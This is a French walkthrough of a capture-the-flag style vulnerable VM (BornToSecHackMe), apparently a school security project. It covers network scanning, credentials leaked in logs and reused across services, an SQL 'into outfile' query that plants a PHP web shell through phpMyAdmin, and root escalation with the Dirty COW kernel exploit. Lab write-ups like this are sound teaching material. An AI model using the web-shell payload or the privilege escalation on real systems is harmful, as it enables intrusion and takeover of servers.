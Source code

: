 
# Configuration de la VM et ports

Après avoir créé simplement une VM, monté l'ISO du sujet, on peut configuer les options réseau de la VM sur virtualbox

Aller dans File->Host network manager

Créer un nouvel host, avec pour adresse 192.168.56.1

Aller dans Settings->Network

Dans adapteur1, créer un host-only, avec comme nom celui précédemment créé.

On lance la VM.

On cherche l'adresse ip de notre VM. Dans la console :

>nmap 192.168.56.1-255

> Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-21 17:05 CEST<br/>
Nmap scan report for 192.168.56.1<br/>
Host is up (0.00018s latency).<br/>
Not shown: 997 closed ports<br/>
PORT STATE SERVICE<br/>
22/tcp open ssh<br/>
1862/tcp filtered mysql-cm-agent<br/>
5001/tcp filtered commplex-link<br/>
Nmap scan report for 192.168.56.100<br/>
Host is up (0.00076s latency).<br/>
All 1000 scanned ports on 192.168.56.100 are closed<br/>
Nmap scan report for 192.168.56.101<br/>
Host is up (0.00063s latency).<br/>
Not shown: 994 closed ports<br/>
PORT STATE SERVICE<br/>
21/tcp open ftp<br/>
22/tcp open ssh<br/>
80/tcp open http<br/>
143/tcp open imap<br/>
443/tcp open https<br/>
993/tcp open imaps<br/>
Nmap done: 255 IP addresses (3 hosts up) scanned in 31.05 seconds<br/>

L'adresse qui nous intéresse ici est 192.168.56.101, car c'est celle qui possède le plus de ports d'ouverts.
On prendra toujours la dernière adresse qui possede le plus de ports ouverts, son numero peut changer selon les installations.
On l'appelera 192.168.56.#.

<h1> Utiliser un 'penetration testing tools' pour trouver d'autres accès</h1>

On utilise **Dirb**, qui accède par http ou https à la machine et trouve les pages web accessibles sur le port 80 et 443.

On découvre ainsi l'existence d'un forum, à l'adresse https://192.168.56.#/forum/

<h2> Forum </h2>

Et voici un extrait intéressant de la page https://192.168.56.#/forum/index.php?id=6

>Oct 5 08:45:26 BornToSecHackMe sshd[7547]: input_userauth_request: invalid user adam [preauth]<br/>
Oct 5 08:45:27 BornToSecHackMe sshd[7547]: pam_unix(sshd:auth): check pass; user unknown<br/>
Oct 5 08:45:27 BornToSecHackMe sshd[7547]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=161.202.39.38-static.reverse.softlayer.com<br/>
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2<br/>
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]<br/>
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)<br/>
Oct 5 09:21:01 BornToSecHackMe CRON[9111]: pam_unix(cron:session): session closed for user lmezard<br/>
Oct 5 10:51:01 BornToSecHackMe CRON[13049]: pam_unix(cron:session): session closed for user root<br/>

Un utilisateur a confondu son login et son password : !q\]Ej?*5K5cy*AJ

On suppose que le password a été utilisé pour l'utilisateur qui s'est enregistré peu après, soit lmezard.

On utilise donc ces identifiants sur le forum - via l'hyperlien 'Sign in' en haut à droite de la page.

Dans les paramètres du user, on trouve aussi son mail :

laurie@borntosec.net

<h2> Webmail </h2>

On peut accéder à un plugin de mailing en suivant ce lien https://192.168.56.#/webmail/src/login.php :

On s'y connecte en utilisant ce mail : laurie@borntosec.net

On suppose que le password est le même que sur le forum : !q\]Ej?*5K5cy*AJ

On y apprend, dans les mails reçus, que l'on peut accéder à la database avec les identifiants suivants, qui sont envoyés par ft_root@mail.borntosec.net :

root / Fg-'kKXBj87E:aJ$

<h2>PhpMyAdmin</h2>

En suivant ce lien https://192.168.56.#/phpmyadmin, on peut se connecter avec les credentials suivants :

root / Fg-'kKXBj87E:aJ$

On peut créer des fichiers dans le dossier /var/www/forum/templates_c/ grâce à la requête SQL suivante :

>select "\<? System('COMMANDE'); ?\>" into outfile "/var/www/forum/templates_c/#.php";

COMMANDE la commande shell à exécuter par PhpMyAdmin. #.php le nom du fichier produit.

On obtient donc un moyen de lancer des commandes via PhPMyAdmin et de consulter les résultats en accèdant à l'adresse "https://192.168.56.#/forum/templates_c/#.php".

Avec la commande “uname -a”, on obtient par exemple des informations sur le système, qui nous seront utiles plus tard.

> Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux

En fouinant un peu, on a aussi pu découvrir le contenu de "/home/LOOKATME/password"

Ce fichier password contient les identifiants pour une connexion ftp :

lmezard / G!@M6f4Eatau{sF"

<h1> Connexion FTP et le fichier fun </h1>

On se connecte donc en ftp à la VM avec les identifiants trouvés, à l'adresse 192.168.56.# puisque le port ftp y est ouvert.

On télécharge le README et le fichier ‘fun’ grâce a la commande “get”.

Contenu du README :

> Complete this little challenge and use the result as password for user 'laurie' to login in ssh

On lance ensuite :

>file fun

Afin de connaître le type de ce fichier.

> fun: POSIX tar archive (GNU)

En faisant une première analyse manuelle de ce fichier, on voit clairement qu'il contient du code C, avec un main contenant 12 fonctions getmeX(), qui doivent renvoyer un caractère.

En décompilant ce fichier ("tar xvf fun"), on obtient un dossier ft_fun contenant de multiples fichiers aux noms barbares, contenant eux mêmes des morceaux de code C, avec un commentaire indiquant un numéro de fichier.

On doit donc écrire un script pour trier et former, dans l'ordre indiqué par les commentaires des fichiers, le code C de ces mêmes fichiers.
Ce script se trouve dans le dossier script du rendu, et doit être utilisé dans le dossier où se trouve le dossier ft_fun.

En récupérant la suite du code du fichier fun qui ne faisait pas partie des fichiers décompilés, on arrive à reconstruire un fichier C compilable comprenant 12 fonctions et un main, dont la sortie est la suivante :

> MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit

On obtient donc le password suivant, pour l'utilisateur laurie :

>330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

<h1> Connexion SSH </h1>

En ayant une connexion SSH, nous pouvons désormais continuer de suivre le chemin de petits cailloux, ou bien utiliser d'autres exploitations, ce que nous allons évidemment faire.

<h2>Dirty Cow</h2>

Nous l'avions appris précédemment, le kernel est un Linux de version inférieure à 4.0

C'est pourquoi nous pouvons utiliser une vulnérabilité du système, au doux nom de Dirty Cow (ref. CVE-2016-5195)

>  _A [race condition](https://en.wikipedia.org/wiki/Race_condition) was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings.
An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system._

De nombreux codes existent sur internet afin de profiter de cette vulnérabilité, et nous avons choisi d'utiliser [ce code](https://www.exploit-db.com/exploits/40839), présent dans le dossier scripts, qui modifie le nom de connexion à root et change son password.

On ouvre donc un editeur de code (tel que vim) dans la VM, et on sauvegarde le code du dirty cow dans un fichier .c, à compiler avec la commande `gcc -pthread dirty.c -lcrypt` et on exécute.
On peut ensuite suivre les instructions du programme, puis se connecter avec les credentials appropriés sur la VM.